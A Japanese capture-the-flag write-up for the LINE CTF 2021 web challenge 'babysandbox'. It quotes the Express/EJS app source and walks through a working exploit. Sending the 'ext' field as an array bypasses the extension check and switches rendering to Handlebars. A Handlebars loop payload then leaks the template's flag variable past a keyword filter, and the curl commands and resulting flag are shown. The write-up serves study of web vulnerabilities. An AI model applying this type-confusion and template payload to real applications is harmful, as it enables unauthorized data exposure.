

3 月 20 日から 3 月 21 日にかけて開催された [LINE CTF 2021](https://linectf.me/) に、チーム zer0pts として参加しました。最終的にチームで 2472 点を獲得し、順位は 1 点以上得点した 680 チーム中 6 位でした。うち、私は 1 問を解いて 428 点を入れました。

以下、私の writeup です。

## [Web 428] babysandbox (9 solves)
> Nah~
> 
> (URL)
> 
> 添付ファイル: babysandbox.tar.gz (ソースコード)

### どんな問題?

与えられた URL にアクセスすると、64 桁の 16 進数のパスにリダイレクトされて以下のようなフォームが表示されました。

各入力欄に上から `hoge` と `fuga` と入力してボタンを押すと、`/(64 桁の 16 進数のパス)/hoge` にリダイレクトされて `fuga` というテキストが表示されました。



どういう実装になっているか、与えられたソースコードを確認します。

`app.js` を見ると、まず `/` にアクセスすると、`utils.generateEndpoint(ip, secretKey)` という関数に IP アドレスと秘密鍵を与えて呼び出し、その返り値にリダイレクトされることがわかります。

```javascript
const express = require('express');
// …
const utils = require('./utils.js');
// …
app.get('/', (req,res)=>{
    let ip = req.headers['x-forwarded-for'] || req.connection.remoteAddress;
    return res.redirect(utils.generateEndpoint(ip, secretKey));
});
```

`utils.js` で `utils.generateEndpoint` の実装を確認します。どうやら、IP アドレスと秘密鍵をもとにハッシュ値を計算してから、`views/sandbox/(ハッシュ値)` というディレクトリを作成しているようです。それから `views/base.ejs` を作成したディレクトリ内に `index.ejs` としてコピーしています。

```javascript
const getHash = (str, salt)=>{
    let hash = crypto.createHash('sha256');
    hash.update(salt);
    hash.update(str);
    return hash.digest('hex');
};

const generateEndpoint = (str, salt)=>{
    let endpointPath = getHash(str, salt);
    let dir = `./views/sandbox/${endpointPath}`;
    
    if(!fs.existsSync(dir)){
        fs.mkdirSync(dir);
    }

    if(!fs.existsSync(`${dir}/index.ejs`)){
        fs.writeFile(`${dir}/index.ejs`, fs.readFileSync("./views/base.ejs", "utf-8"), (err)=>{
            if(err) {
                console.log(`[!] File write error: ${dir}/index.ejs`);
                return false;
            }
            console.log(`[*] Created ${dir}/index.ejs by ${str} (endpoint: ${endpointPath})`);
        });
    }
    return endpointPath;
};
```

`/(ハッシュ値)/` にアクセスした際の処理を `app.js` で確認します。ここでは、先程コピーされた `index.ejs` がレンダリングされるだけのようです。

```javascript
app.get('/:sandboxPath', authMiddleware, (req,res)=>{
    note = req.query.note || 'index';
    return res.render(`sandbox/${req.params.sandboxPath}/${note}`);
});
```

フォームを送信した際の処理を `app.js` で確認します。ここでは送信されたデータのうち `filename`、`ext`、`contents` の 3 つが参照されています。このうち `ext` と `filename` は省略可能で、もし省略されればそれぞれ `.ejs` と `noname` が使われます。

いくつか送信されたデータのチェックがされており、まず `filename` と `contents` がいずれも文字列であるか確認されています。

それから `ext` に `.ejs` が含まれ、また 4 文字であるか確認されています。`ext` は実質的に `.ejs` 以外を入れることができないようになっているようです。

そして、`contents` は `utils.sanitize` という関数でチェックされています。

チェックが済んだ後、`views/sandbox/(ハッシュ値)/(filename)(ext)` というファイルに `contents` の内容が書き込まれています。

```javascript
const options = {
    ext: '.ejs',
    filename: 'noname',
}

app.post('/:sandboxPath', authMiddleware, (req, res)=>{
    let saveOptions = {}
    let isChecked = true;
    let path = '';

    merge(saveOptions, options)
    merge(saveOptions, req.body)

    if(saveOptions.filename === undefined || saveOptions.contents === undefined ||
        typeof saveOptions.filename !== 'string' || typeof saveOptions.contents !== 'string') 
        isChecked = false

    if(!saveOptions.ext.includes('.ejs') || saveOptions.ext.length !== 4) isChecked = false;

    if(isChecked) {
        let filename = saveOptions.filename || 'noname';
        filename += saveOptions.ext
        let body = saveOptions.contents;
        if(utils.sanitize(body)){
            let uploadPath = `./views/sandbox/${req.params.sandboxPath}/${filename}`;
            if(!fs.existsSync(uploadPath)){
                fs.writeFile(uploadPath, body, (err)=>{
                    if(err) {
                        console.log(`[!] File write error: ${uploadPath}`);
                        isChecked = false
                    }
                    console.log(`[*] Created ${uploadPath} by ${req.ip} (endpoint: ${req.params.sandboxPath})`);
                });
            } else {
                isChecked = false
            }
        } else {
            isChecked = false
        }
        
    }

    if(isChecked) path = `/${req.params.sandboxPath}/${saveOptions.filename}`;

    let result = {
        result: isChecked,
        path
    };

    return res.json(result)
});
```

`utils.sanitize` の実装を `utils.js` で確認します。この関数は、どうやら文字列に `<`、`>`、`flag` のいずれかが含まれていれば `false` を返すようです。

EJS は、デフォルトでは `<%= 7*7 %>` のように `<` や `>` を使わなければ JavaScript コードの実行ができません。これによって EJS の機能を使えないようにしているのでしょう。

```javascript
const sanitize = (body)=>{
    reuslt = true
    tmp = body.toLowerCase()
    if(tmp.includes('<') || tmp.includes('>')) return false
    if(tmp.includes('flag')) return false
    
    return true
}
```

作成されたファイルにアクセスする方法を `app.js` で確認します。`/(ハッシュ値)/(ファイル名)` にアクセスすると `res.render` によってそのファイルをレンダリングされますが、ここでパラメータとしてフラグが与えられています。

```javascript
app.get('/:sandboxPath/:filename', authMiddleware, (req,res)=>{
    try {
        res.render(`sandbox/${req.params.sandboxPath}/${req.params.filename}`, {flag});
    } catch {
        res.status(404).send('Not found.');
    }
});
```

### EJS 以外を使う
前述のように、`<` や `>` が使えなければ、EJS のテンプレートはただのプレーンテキストでしかありません。なんとかして拡張子を `.ejs` 以外に変えて、EJS 以外のテンプレートエンジンが使えないでしょうか。

フォームの送信時に文字列かどうかチェックされていたのは `filename` と `contents` だけで、`ext` についてはチェックされていなかったことを思い出しましょう。

もし `ext` が配列であればどうでしょうか。`ext` に `.ejs` という文字列が含まれるかと、`ext` の長さが 4 であるかのチェックはそれぞれ `includes` というメソッドと `length` というプロパティを使っています。これらのメソッドやプロパティは `Array` も持っていますから、もし `ext` が配列であってもうまく動くはずです。

4 つの要素を持ち、そのうちのひとつが `.ejs` という文字列である配列を `ext` として投げてみましょう。試してみると、以下に示すように `hoge.ejs,a,b,c` というファイルが作成されました。これで `.ejs` 以外の拡張子でファイルの作成ができるようになりました。

```
$ curl http://localhost:8000
Found. Redirecting to 550a47c54a2c9d980a7b1ba202bebbbdbe37bd36954424d2c1d5d135bfd9f3cf
$ HASH=550a47c54a2c9d980a7b1ba202bebbbdbe37bd36954424d2c1d5d135bfd9f3cf
$ curl "http://localhost:8000/$HASH" -H "Content-Type: application/json" -d '{"filename":"hoge","contents":"fuga","ext":[".ejs","a","b","c"]}'
{"result":true,"path":"/550a47c54a2c9d980a7b1ba202bebbbdbe37bd36954424d2c1d5d135bfd9f3cf/hoge"}
$ docker exec b1 ls "views/sandbox/$HASH/"
hoge.ejs,a,b,c
index.ejs
```

生成されたファイルにアクセスしてみようとすると、`ejs,a,b,c` というモジュールを読み込もうとしたが見つけられなかったというエラーが表示されました。どういうことでしょうか。

```
$ curl "http://localhost:8000/$HASH/hoge.ejs,a,b,c"
Error: Cannot find module 'ejs,a,b,c'
Require stack:
- /app/node_modules/express/lib/view.js
- /app/node_modules/express/lib/application.js
- /app/node_modules/express/lib/express.js
- /app/node_modules/express/index.js
- /app/app.js
```

適当な存在するモジュールの名、例えば `fs` を拡張子にして試してみると、今度は view engine とやらを `fs` モジュールが提供していないというエラーが表示されました。

```
$ curl "http://localhost:8000/$HASH" -H "Content-Type: application/json" -d '{"filename":"hoge","contents":"fuga","ext":[".ejs","a","b",".fs"]}'
{"result":true,"path":"/550a47c54a2c9d980a7b1ba202bebbbdbe37bd36954424d2c1d5d135bfd9f3cf/hoge"}
$ curl "http://localhost:8000/$HASH/hoge.ejs,a,b,.fs"
Error: Module "fs" does not provide a view engine.
```

問題サーバの環境に存在していて、かつ view engine を提供していそうなモジュールはないでしょうか。`package.json` を眺めていると、`hbs` が見つかりました。[Handlebars](https://handlebarsjs.com/) というテンプレートエンジンがあるようです。

```json
{
  "dependencies": {
    "body-parser": "^1.19.0",
    "ejs": "^3.1.6",
    "express": "^4.17.1",
    "hbs": "^4.1.1",
    "morgan": "^1.10.0"
  }
}
```

本当に Handlebars が使えるか試してみましょう。Handlebars では `{{! comment }}` のような記法でレンダリング時に無視されるコメントが使えます。これが表示されるかどうか確認します。

試してみると、以下に示すように `ABCDEF` とだけ表示され、無事に Handlebars を使えていることがわかりました。

```
$ curl "http://localhost:8000/$HASH" -H "Content-Type: application/json" -d '{"filename":"comment","contents":"ABC{{! comment }}DEF\n","ext":[".ejs","a","b",".hbs"]}'
{"result":true,"path":"/550a47c54a2c9d980a7b1ba202bebbbdbe37bd36954424d2c1d5d135bfd9f3cf/comment"}
$ curl "http://localhost:8000/$HASH/comment.ejs,a,b,.hbs"
ABCDEF
```

### フラグを得る
あとは `{{ flag }}` でフラグを得るだけ…ではありません。フォームの送信時に `contents` に `flag` が含まれていないかどうかチェックされるので、このままでは弾かれてしまいます。

このような状況から思い出されるのは、[Defenit CTF 2020 の BabyJS](2020-06-08-defenit-ctf.html#web-248-babyjs-47-solves) です。BabyJS はこの問題と同じように、`FLAG` という文字列が使えない中で、Handlebars の機能を使って `FLAG` というパラメータを展開させる問題でした。

BabyJS と同じペイロードを試してみましょう。

```
$ curl "http://(省略)/$HASH" -H "Content-Type: application/json" -d '{"file
name":"flag","contents":"{{#each .}}{{#if (lookup . \"toString\")}}{{.}}{{/if}}{{/each}}\n","ext":[".ejs","a","b",".hbs"]}'
{"result":true,"path":"/(省略)/flag"}
$ curl "http://(省略)/$HASH/flag.ejs,a,b,.hbs"
[object Object]LINECTF{I_think_emilia_is_reallllly_t3nshi}
```

フラグが得られました。

```
LINECTF{I_think_emilia_is_reallllly_t3nshi}
```